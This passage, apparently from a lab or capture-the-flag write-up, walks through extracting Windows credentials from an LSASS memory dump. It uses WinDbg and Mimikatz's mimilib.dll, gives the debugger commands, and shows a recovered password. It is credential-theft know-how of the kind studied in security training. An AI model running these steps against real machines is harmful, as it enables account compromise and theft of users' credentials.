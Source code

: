 - We get the password: **PWN3D#l0rr@Armessa199**

- <u>OPTION 3 - WinDbg + Mimikatz:</u>
  - Install with:

```bash
winget install Microsoft.WinDbg

```
- Opening a process dump:
1\. Open WinDbg (as Administrator)

2\. Click File → Open Crash Dump

3\. Navigate to the dump file and click Open

4\. Wait for WinDbg to open the dump

- Get the hashes:
<https://jamescoote.co.uk/Dumping-LSASS-with-SharpShere/>

- Download Mimikatz and load Mimilib.dll from within WinDbg:

```bash
.load \\vmware-host\Shared Folders\VM Share\mimikatz-master\mimikatz-master\x64\mimilib.dll

```

- Find the LSASS process:
```bash
!process 0 0 lsass.exe

```

![image36](../resources/e3fc5e18ff3f4ecea0743f3622a8dada.png)

- Switch to that process:

```bash
.process /r /p ffffbc83a93e7080

```

![image37](../resources/40cfa7edfa384bd4a5eb3149453de3fa.png)
